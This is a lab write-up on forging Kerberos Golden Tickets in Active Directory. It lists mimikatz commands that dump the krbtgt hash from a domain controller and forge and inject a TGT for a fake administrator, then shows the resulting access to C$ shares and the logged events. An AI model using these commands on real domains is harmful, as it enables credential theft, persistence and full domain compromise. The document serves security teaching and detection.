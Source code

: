 ```yaml
---
description: Persistence and Privilege Escalation with Golden Kerberots tickets
---
```


# Kerberos: Golden Tickets

This lab explores an attack on Active Directory Kerberos Authentication. To be more precise - an attack that forges Kerberos Ticket Granting Tickets \(TGT\) that are used to authenticate users with Kerberos. TGTs are used when requesting Ticket Granting Service \(TGS\) tickets, which means a forged TGT can get us any TGS ticket - hence it's golden.

This attack assumes a Domain Controller compromise where `KRBTGT` account hash will be extracted.

## Execution

Extracting the krbtgt account's password `NTLM` hash:

{% code-tabs %}
{% code-tabs-item title="attacker@victim-dc" %}
```csharp
mimikatz # lsadump::lsa /inject /name:krbtgt
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/kerberos-golden-krbtgt-hash.png)

Creating a forget golden ticket that automatically gets injected in current logon session's memory:

{% code-tabs %}
{% code-tabs-item title="attacker@victim-workstation" %}
```text
mimikatz # kerberos::golden /domain:offense.local /sid:S-1-5-21-4172452648-1021989953-2368502130 /rc4:8584cfccd24f6a7f49ee56355d41bd30 /user:newAdmin /id:500 /ptt
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/kerberos-golden-create.png)

Checking the ticket got created:

![](../../.gitbook/assets/kerberos-golden-klist.png)

Opening another powershell console with non-elevated privileges/non-admin account and trying to mount a `c$` share of `pc-mantvydas` and `dc-mantvydas` - not surprisingly, returns access denied:

![](../../.gitbook/assets/kerberos-golden-denied.png)

Now switching back to the console the attacker used to create a golden ticket \(local admin\) and again attempting to access `c$` share - this time a success:

![](../../.gitbook/assets/kerberos-golden-granted.png)

## Observations

![](../../.gitbook/assets/kerberos-golden-logon.png)

![](../../.gitbook/assets/kerberos-golden-share.png)

{% embed url="https://blog.stealthbits.com/complete-domain-compromise-with-golden-tickets/" %}

{% embed url="https://adsecurity.org/?p=1515" %}

